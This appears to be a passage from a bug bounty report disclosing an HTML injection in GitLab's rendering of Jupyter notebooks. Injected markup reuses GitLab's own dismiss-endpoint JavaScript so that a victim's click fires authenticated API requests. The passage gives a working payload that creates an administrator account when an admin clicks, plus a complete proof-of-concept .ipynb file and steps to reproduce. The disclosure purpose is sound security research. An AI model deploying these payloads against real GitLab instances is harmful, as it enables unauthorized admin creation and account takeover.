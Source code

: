 {F1525031}

Visiting this site and clicking anywhere will add a Todo on an Issue on one of my projects. I have also tested this attack with an attack creating an admin account. Replacing the payload in the POC with this one

```
"text/html": "<div class=\"js-new-user-signups-cap-reached\" data-dismiss-endpoint=\"https://gitlab.com/api/v4/users?admin=true&email=joaxcarte01@wearehackerone.com&name=just&username=just&password=asdasdasdasd\" data-defer-links=\"false\" data-feature-id=\"1\"><button style=\"background-color: rgba(0, 0, 0, 0); border: 0; cursor: default; height: 100%; left: 0; position: absolute; top: 0; width: 100%; z-index: 1000\" class=\"js-close\">.</button></div>\n"}
```

A visit by an admin to this site would end up with a new admin account being created.

Finally I want to point out that this kind of attack is possible anywhere where HTML injection could happen. Even with Purified HTML.

### Steps to reproduce
1. Create a project on GitLab.com
2. Create a new file named `hack.ipynb` (or upload the included file) with the content
{F1525030}
```
{
  "cells": [
    {
      "metadata": { "trusted": true },
      "cell_type": "code",
      "source": "<h1>asd</h1>",
      "execution_count": 1,
      "outputs": [
        {
          "output_type": "display_data",
          "data": {
            "text/plain": "<IPython.core.display.HTML object>",
            "text/html": "<div class=\"js-feature-highlight\" data-dismiss-endpoint=\"https://gitlab.com/api/v4/todos/147611488/mark_as_done\" data-auto-devops-help-path=\"hej\" data-highlight-id=\"1\">asdf</div>\n<div class=\"js-new-user-signups-cap-reached\" data-dismiss-endpoint=\"https://gitlab.com/api/v4/projects/31573768/issues/1/todo\" data-defer-links=\"false\" data-feature-id=\"1\"><button style=\"background-color: rgba(0, 0, 0, 0); border: 0; cursor: default; height: 100%; left: 0; position: absolute; top: 0; width: 100%; z-index: 1000\" class=\"js-close\">hack</button></div>\n"
          },
          "metadata": {}
        }
      ]
    }
  ],
  "metadata": {
    "kernelspec": {
      "name": "python3",
      "display_name": "Python 3",
      "language": "python"
    },
    "language_info": {
      "name": "python",
      "version": "3.7.8",
      "mimetype": "text/x-python",
      "codemirror_mode": { "name": "ipython", "version": 3 },
      "pygments_lexer": "ipython3",
      "nbconvert_exporter": "python",
      "file_extension": ".py"
    }
  },
  "nbformat": 4,
  "nbformat_minor": 4
```